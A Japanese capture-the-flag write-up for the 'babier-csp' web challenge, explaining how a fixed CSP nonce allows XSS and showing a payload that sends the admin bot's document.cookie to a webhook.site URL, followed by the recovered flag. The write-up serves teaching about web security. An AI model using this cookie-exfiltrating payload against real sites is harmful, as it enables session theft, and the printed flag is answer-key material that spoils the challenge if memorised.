



# Writeup

[babier-csp.dicec.tf](https://babier-csp.dicec.tf/)にアクセスする。



View Fruit をクリックすると、`https://babier-csp.dicec.tf/?name=orange`といった`name`クエリに入っている文字が表示される。ソースコードは以下。

```js
const express = require('express');
const crypto = require("crypto");
const config = require("./config.js");
const app = express()
const port = process.env.port || 3000;

const SECRET = config.secret;
const NONCE = crypto.randomBytes(16).toString('base64');

const template = name => `
<html>

${name === '' ? '': `<h1>${name}</h1>`}
<a href='#' id=elem>View Fruit</a>

<script nonce=${NONCE}>
elem.onclick = () => {
  location = "/?name=" + encodeURIComponent(["apple", "orange", "pineapple", "pear"][Math.floor(4 * Math.random())]);
}
</script>

</html>
`;

app.get('/', (req, res) => {
  res.setHeader("Content-Security-Policy", `default-src none; script-src 'nonce-${NONCE}';`);
  res.send(template(req.query.name || ""));
})

app.use('/' + SECRET, express.static(__dirname + "/secret"));

app.listen(port, () => {
  console.log(`Example app listening at http://localhost:${port}`)
})
```

`name`にスクリプトタグを入力してXSSできないか調べてみる。

* https://babier-csp.dicec.tf/?name=%3Cscript%3Ealert(0);%3C/script%3E 

すると、開発者ツールに以下のメッセージが出ていた。

```
Refused to execute inline script because it violates the following Content Security Policy directive
```

どうやら、スクリプトタグについている`nonce`が一致していないとブロックされるらしい。

以下のように`nonce`を含めると任意のスクリプトを実行できることがわかる。

* https://babier-csp.dicec.tf/?name=%3Cscript%20nonce=LRGWAXOY98Es0zz0QOVmag==%3Ealert(0);%3C/script%3E

問題文に

> The admin will set a cookie secret equal to config.secret in index.js.

とあるので、[Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=babier-csp)にアクセスし、以下のURLを入力する。

```url
https://babier-csp.dicec.tf/?name=<script%20nonce="LRGWAXOY98Es0zz0QOVmag==">%20window.open("https://webhook.site/485d646e-854c-4699-b351-86540967fce7?q="%2Bdocument.cookie);</script>
```

これにより、Admin Botがsecretをクエリ文字列にいれてWebhookにアクセスする。



secret が分かったので、https://babier-csp.dicec.tf/{secret} にアクセスする。ソースコードを見るとフラグが書かれていた。



<!-- dice{web_1s_a_stat3_0f_grac3_857720} -->